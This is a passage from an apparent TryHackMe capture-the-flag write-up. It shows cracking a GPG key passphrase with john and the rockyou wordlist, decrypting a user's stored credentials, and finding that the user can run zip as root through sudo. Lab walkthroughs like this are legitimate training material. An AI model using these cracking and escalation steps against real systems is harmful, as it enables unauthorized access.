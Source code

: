 Investigating the result, we find a username and a potentially hashed password. Actually, I spend quite a time looking for what kind of hash was that, but I just tried it itself as a password and it worked out connecting to ssh.

In the machine, there exist two users under the home direcotry. The user *merlin* has the `user.txt` flag and we can read it without any further permissions.

In the home dictory of *skyf_ck*, there is two interesting files: `tryhackme.asc` and `credential.pgp`.\
GPG was introduced for email security. Here `tryhackme.asc` contains a GPG private key and `credential.pgp` is potentially some encrypted message containing some credentials.
Note: don't confuse PGP and GPG, they both serve the same purpose.

To use the key in the decryption, a passphrase is required. This is what we're going to brute force using `john`.
```
$ gpg2john tryhackme.asc > hash   

$ john hash -wordlist:/usr/share/wordlists/rockyou.txt

<...snip...>
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)     
1g 0:00:00:00 DONE (2024-02-21 18:41) 16.66g/s 17866p/s 17866c/s 17866C/s marshall..alexandru
Use the "--show" option to display all of the cracked passwords reliably
```

There we have our passphrase. Note that I specified the rockyou wordlist after no match was found in the default wordlist used by `john`.

To add the private key for decryption we run the following command and enter the passphrase:
```
$ gpg --import tryhackme.asc

gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

Now for decryption, we'll be prompted to enter the passphrase once again:
```
$ gpg --decrypt credential.pgp

gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

The message contains *merlin*'s credentials. After connection, we discover that the user can execute `zip` with root privilege.
```
merlin@ubuntu:~$ sudo -l

Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
